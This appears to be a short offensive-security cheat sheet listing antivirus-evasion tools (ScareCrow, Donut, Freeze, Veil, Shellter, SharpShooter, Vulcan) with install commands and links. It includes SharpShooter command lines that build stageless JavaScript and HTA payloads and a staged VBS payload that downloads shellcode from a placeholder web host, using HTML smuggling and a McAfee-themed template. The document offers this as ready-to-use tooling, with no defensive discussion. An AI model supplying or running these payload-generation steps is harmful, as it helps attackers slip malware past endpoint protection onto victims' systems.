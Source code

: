 # Recent Tools to Bypass AV: 

## Scarecrow

Source: https://github.com/optiv/ScareCrow

In Kali: 

sudo apt install golang

go get github.com/fatih/color
go get github.com/yeka/zip
go get github.com/josephspurrier/goversioninfo

go build ScareCrow.go

./ScareCrow

## Donut: 

Source: https://github.com/TheWover/donut

## Freeze: 
Source: https://github.com/Tylous/Freeze

Installation

```
sudo apt install golang
go build Freeze.go
```

# Old tools to bypass AV
## Veil Framework:

Install on Kali: 
- apt install veil
- /usr/share/veil/config/setup.sh --force --silent

Reference: https://github.com/Veil-Framework/Veil

## Shellter

Source: https://www.shellterproject.com/download/

- apt install shellter


## Sharpshooter

Javascript Payload Stageless: 
- SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

Stageless HTA Payload: 

- SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

Staged VBS:

- SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

Reference: https://github.com/mdsecactivebreach/SharpShooter


## Vulcan

Source: https://github.com/praetorian-code/vulcan



# Resources: 

- https://book.hacktricks.xyz/windows-hardening/av-bypass
- https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates

